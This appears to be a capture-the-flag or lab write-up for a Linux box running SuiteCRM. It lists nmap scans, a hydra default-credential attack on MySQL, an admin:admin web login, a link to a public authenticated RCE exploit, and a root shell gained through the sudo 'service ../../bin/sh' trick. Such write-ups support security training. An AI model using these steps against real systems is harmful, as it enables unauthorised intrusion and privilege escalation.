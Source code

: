 ### Enumeration
```
IP=192.168.189.146
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,80,3306,33060 -A $IP
```
### Ports 
- 22
	- OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
- 80
	- http    Apache httpd 2.4.38 ((Debian))
- 3306
	- mysql   MySQL (unauthorized)
- 33060
	- mysqlx
- OS: Linux
### Foothold
- 3306
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt mysql://$IP`
		- `[ERROR] Host '192.168.45.195' is not allowed to connect to this MySQL server`
- 80
	- ![[Pasted image 20240704084538.png]]
	- admin:admin
		- successful
	- logged in
		- ![[Pasted image 20240704084604.png]]
		- We can upload custom modules from the admin tab
	- SuiteCRM
		- SuiteCRM 7.11.18 RCE Authenticated MSF
		- https://github.com/manuelz120/CVE-2022-23940
			- ![[Pasted image 20240704085339.png]]
			- ![[Pasted image 20240704085345.png]]
	- dirsearch -u http://$IP
		- `/cache  /config.php  /custom  /data  /download.php  /include  /install  /modules  /robots.txt  /soap  /themes  /upload  /vendor`
### PE
#### Linux
- USERNAME
	- id
		- uid=33(www-data) gid=33(www-data) groups=33(www-data)
	- sudo -l
		- (ALL) NOPASSWD: /usr/sbin/service
			- https://gtfobins.github.io/gtfobins/service/
			- sudo /usr/sbin/service ../../bin/sh
			- Rooted
	- uname -a
		- Linux crane 4.19.0-24-amd64 #1 SMP Debian 4.19.282-1 (2023-04-29) x86_64 GNU/Linux
	- getcap -r / 2>/dev/null
		- nothing
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- nothing
### Credentials
- admin:admin
	- port 80
### Lessons Learned
- Google version and look for exploits